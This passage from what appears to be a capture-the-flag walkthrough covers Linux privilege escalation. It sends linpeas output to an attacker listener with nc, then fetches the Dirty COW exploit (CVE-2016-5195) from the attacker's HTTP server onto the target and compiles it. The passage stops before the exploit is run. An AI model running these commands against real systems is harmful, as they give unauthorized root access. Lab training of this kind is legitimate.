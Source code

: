 This seems to confirm my suspicion. Let's find binaries with SUID bits set:

```
find / -perm /4000 2>/dev/null
```

There's nothing that doesn't need Sudo, which we don't have on this user:

```
sudo -l
```

Let's try `linpeas.sh` and maybe find out what else we can use to escalate our privileges on the machine. 

```
cd /tmp
```

On our host machine, let's make the output listener ready:

```
nc -lvnp 9002 | tee linpeas.out
```

And on the remote machine, type the following:

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | nc <HOST MACHINE IP> 9002
```

This will prepare a linpeas analysis right on your host machine in a file named `linpeas.out`.

```
cat linpeas.out | grep CVE | more
```

A `dirtycow` vulnerability (`CVE-2016-5195`) seems to be available on the remote machine and `gcc` utility is also available on the remote machine. This could be worth a try. Let's find a `dirtycow` exploit:

```
searchsploit --cve 2016-5195
cp /usr/share/exploitdb/exploits/linux/local/40839.c dirty.c
```

Now we need to transfer this `dirty.c` file to remote machine's `/tmp`. On the host machine:

```
python -m http.server
```

On the remote machine:

```
wget http://<HOST MACHINE IP>:8000/dirty.c
```

And compile it on the remote machine:

```
gcc -pthread dirty.c -o dirty -lcrypt
```

